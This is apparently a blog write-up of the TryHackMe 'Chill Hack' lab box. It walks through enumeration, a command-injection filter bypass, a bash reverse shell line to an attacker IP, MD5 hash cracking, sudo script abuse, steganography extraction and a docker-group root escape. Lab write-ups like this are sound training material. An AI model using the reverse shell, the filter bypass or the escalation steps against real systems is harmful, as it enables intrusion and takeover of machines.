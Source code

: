 ```yaml
---
layout: post
title:  "TryHackMe - Chill Hack"
date:   2022-05-03 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
---
```


[Chill Hack](https://tryhackme.com/room/chillhack) is an easy-ranked box. Unfortunately, it wasn't the most fun box to do, with a handful of unrealistic and unintuitive stops along the killchain.

## Nmap Emumeration
As ever, the first thing to do is run an nmap scan to see what services are accessible to us on the box. People always have their own methodology for what command line options to use, but here are the ones I went with.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we’re working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oA`: Outputs the result of the command into several file formats. Having a persistent record of the scan to go back to later is always useful.

```bash
nmap -sC -sV -vvv -oA nmap/initial 10.10.86.64
```

It's good to do a quick basic nmap scan of the top 1000 ports first to have a starting point and then run a second more comprehensive scan in the background later. In this case, the first scan gives us pretty much all the information we'll need to proceed.

Nmap finds three open ports: port 21 running FTP, port 22 running SSH, and port 80 hosting an HTTP server.

Thanks to running the default scripts, we also know that the FTP server allows anonymous login and that there's a potentially interesting file sitting on it.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

## FTP/HTTP Enumeration
Since the FTP server is such a low-hanging fruit and it'll be very quick to check out, we'll start there. We can confirm that anonymous login does indeed work on the server, and that the file on it is accessible to us.

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

There's not much else to see there, so we'll move onto the web server. At first glance, the site seems to just be a flat HTML website without much of an attack area, so we'll pass things along to a directory brute force tool (in my case, Feroxbuster) to see if there's anything hidden from us.

Sure enough, Feroxbuster finds a `/secret` directory that seems to have a place for us to input arbitrary shell commands.

![Secret Directory](/assets/images/chillhack/2022-05-03_15-34.png)

## Command Injection
We can deduce from the note on the FTP server that there is some sort of protection in place to keep us from having free rein of the capability. Running `whoami` confirms that we do have the ability to run commands and that we'll be running as the `www-data` user.

![whoami Output](/assets/images/chillhack/2022-05-03_10-38.png)

Next we'll try running `bash -c` to see if we can get a reverse shell that way. Unsurprisingly, we trigger the filter.

![Command Filter](/assets/images/chillhack/2022-05-03_11-02.png)

A common way of bypassing these kinds of filters is escaping characters. Escape characters like `\n` or `\t` can affect how text is formatted, and escaping special characters like `\'` or `\\` lets us use special characters in places where they normally have special meaning. Escaping characters that don't have any special meaning, however, will simply output the character as normal.

![Filter Bypass](/assets/images/chillhack/2022-05-03_11-03.png)

Now that we know we can bypass the filter, we can start building out a reverse shell to give us better access to the box.

```bash
b\ash -c "b\ash -i >& /dev/tcp/10.13.14.52/9001 0>&1"
```

## Privilege Escalation
We land as `www-data` in the `/var/www/html` directory. Poking around there, it we find that there's a second web app sitting in `/var/www/files`. In there, we have a PHP file that includes a MySQL configuration.

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

Unfortunately, that password doesn't work as the `root` password, but we can still poke at the MySQL database. There's a `users` table in the `webportal` database, so we can pull a pair of MD5 hashed passwords.

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

MD5 us a very broken hashing algorithm, so we're able to just run them through CrackStation to get the passwords.

![CrackStation Output](/assets/images/chillhack/2022-05-03_11-18.png)

Unfortunately, these passwords don't work on any of the accounts on the box either.

Enumerating the accounts on the box, we have three users outside of `root`: `anurodh`, `apaar`, and `aurick`. Interestingly, we have read access to `apaar`'s home directory. Even more interestingly, there's a shell script called `.helpline.sh` with another command injection vulnerability. And even more interestingly, we can run that script as `apaar`.

```bash
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
```

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

If we input `bash` at the `msg` prompt, we land in a bash shell as the `apaar` user. From here we can grab the user flag in the `local.txt` file. We can drop an SSH key in here as well to give us a better, more firendly shell.

## Privesc 2: Electric Boogaloo
Unfortunately, `apaar` doesn't give us a lot of additional permissions, so we'll need to keep poking. Checking `netstat`, there's another service available only to localhost on port 9001 that we can check next.

```
apaar@ubuntu:~$ netstat -lpnut
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.86.64:68          0.0.0.0:*                           -
```

Since we already have SSH access, we can use SSH port forwarding to look at it on our local machine.

```bash
ssh -i apaar.key -L 9001:127.0.0.1:9001 apaar@10.10.86.64
```

Checking this new port out, it turns out it's running a web server. We're greeted with a login page.

![Login Page](/assets/images/chillhack/2022-05-03_12-54.png)

From the PHP code we found earlier, we know that this app is vulnerable to SQL injection, and from the database dump we know the usernames and passwords to log in. Either way, we get in.

![After Login](/assets/images/chillhack/2022-05-03_12-55.png)

Not much to go on here. We have to take a bit of a leap of faith and investigate the image. Turns out it has some steganography in it.

```
$ steghide info hacker-with-laptop_23-2147985341.jpg
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                     
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

The zip has one file, but it's password protected. That's nothing John The Ripper and rockyou.txt can't take care of. The PHP file includes a Base64 encoded password and a reference to Anurodh, which matches one of the usernames we found earlier.

## I Am Root
With the new password, we're able to SSH into the box as the `anurodh` user. It turns out Anurodh is a member of the `docker` group, which could be a potential escalation vector.

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

With a little help from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we can mount the filesystem into a Docker image, which will give us free rein to view whatever files we want, including the root flag in the `proof.txt` file.